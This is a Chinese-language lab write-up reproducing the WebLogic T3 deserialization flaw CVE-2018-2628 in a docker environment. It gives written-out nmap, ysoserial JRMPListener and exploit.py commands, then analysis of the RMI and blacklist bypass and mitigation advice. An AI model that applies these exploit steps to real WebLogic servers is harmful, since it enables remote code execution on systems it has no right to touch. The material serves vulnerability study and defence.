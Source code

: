 # Weblogic Server WLS Core Components 反序列化命令执行漏洞 (CVE-2018-2628)

## 漏洞详情

CVE-2018-2628漏洞是2018年Weblogic爆出的**基于T3(丰富套接字)协议的反系列化高危漏洞**，且在打上官方补丁Patch Set Update 180417补丁后仍能检测到只是利用方法有了一些改变漏洞编号改为了CVE-2018-3245，其基本原理其实都是利用了T3协议的缺陷实现了Java虚拟机的RMI：远程方法调用(Remote Method Invocation)，能够在本地虚拟机上调用远端代码。



## 影响版本

**Weblogic 10.3.6.0 Weblogic 12.1.3.0 Weblogic 12.2.1.2 Weblogic 12.2.1.3**



## 环境搭建

```
cd weblogic/CVE-2018-2628
docker-compose up -d
```



## 漏洞复现

首先我们用nmap检查一下漏洞所需端口情况

这里我们针对7001，和7002两个默认的控制端口进行扫描，扫描的时候加上weblogic-t3-info脚本，如果目标服务器开启了T3协议就会在扫描结果中显示。

```
nmap -n -v -p7001,7002 192.168.16.128 --script=weblogic-t3-info
```

![image-20210413163946799](images/Weblogic%20Server%20WLS%20Core%20Components%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20(CVE-2018-2628).assets/image-20210413163946799.png)

我们启动一个JRMP Server，可以利用 [ysoserial](https://github.com/brianwrf/ysoserial/releases/tag/0.0.6-pri-beta)

下载后我们在本地启动它

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

- [listen port]：本地监听的端口，待会要用到
- [command]：需要执行的命令，这里我们准备在目标的/tmp目录下创建一个shell文件

最后构建的命令

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 4444 CommonsCollections1 "touch /tmp/shell"
```



然后，我们再使用[exploit.py](https://www.exploit-db.com/exploits/44553)脚本，向目标Weblogic（`http://your-ip:7001`）发送数据包：

```
python2 exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

- `[victim ip]`和`[victim port]`是目标weblogic的IP和端口
- `[path to ysoserial]`是本地ysoserial的路径
- `[JRMPListener ip]`和`[JRMPListener port]`第一步中启动JRMP Server的IP地址和端口
- `[JRMPClient]`是执行JRMPClient的类，可选的值是`JRMPClient`或`JRMPClient2`

最后我们的命令构建

```
python2 .\exploit.py 192.168.16.128 7001 .\ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 192.168.16.1 4444 JRMPClient
```

命令完成之后我们就可以进入docker容器中，验证目标的/tmp目录下是否创建一个shell文件

```
docker-compose exec weblogic bash
```

![image-20210413183512456](images/Weblogic%20Server%20WLS%20Core%20Components%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20(CVE-2018-2628).assets/image-20210413183512456.png)



## 漏洞分析

目前这个漏洞是结合了历史问题实现的远程命令执行，具体概括有三点

1. 反射机制

   JAVA反射机制是在运行状态中，对于任意一个类，都能够知道这个类的所有属性和方法；对于任意一个对象，都能够调用它的任意一个方法和属性；这种动态获取的信息以及动态调用对象的方法的功能称为java语言的反射机制。

2. RMI

   RMI是Remote Method Invocation的简称，是J2SE的一部分，能够让程序员开发出基于Java的分布式应用。一个RMI对象是一个远程Java对象，可以从另一个Java虚拟机上（甚至跨过网络）调用它的方法，可以像调用本地Java对象的方法一样调用远程对象的方法，使分布在不同的JVM中的对象的外表和行为都像本地对象一样。

   RMI传输过程都使用序列化和反序列化，如果RMI服务端端口对外开发，并且服务端使用了像Apache Commons Collections这类库，那么会导致远程命令执行。

   RMI依赖于Java远程消息交换协议JRMP（Java Remote Messaging Protocol），该协议为java定制，要求服务端与客户端都为java编写。

3. 绕过黑名单

   Weblogic 中InboundMsgAbbrev 的resolveProxyClass处理rmi接口类型，因为只判断了java.rmi.registry.Registry ，找一个其他的rmi接口绕过，比如java.rmi.activation.Activator为 RMI 对象激活提供支持。

这里参考：[CVE-2018-2628 WebLogic反序列化漏洞分析](http://blog.topsec.com.cn/cve-2018-2628-weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)

经测试，必须先发送T3协议头数据包，再发送JAVA序列化数据包，才能使weblogic进行JAVA反序列化，进而触发漏洞。如果只发送JAVA序列化数据包，不先发送T3协议头数据包，无法触发漏洞



## 防御与修复

- 官方补丁

- 手工修复

  若要利用该漏洞, 攻击者首先需要与WebLogic Server提供的T3服务端口建立SOCKET连接, 运维人员可通过控制T3协议的访问权限来临时阻断漏洞利用。

  WebLogic Server 提供了名叫“weblogic.security.net.ConnectionFilterImpl”的默认连接筛选器。该连接筛选器可控制所有传入连接，通过修改此连问控制。接筛选器规则，可对T3及T3S协议进行防御。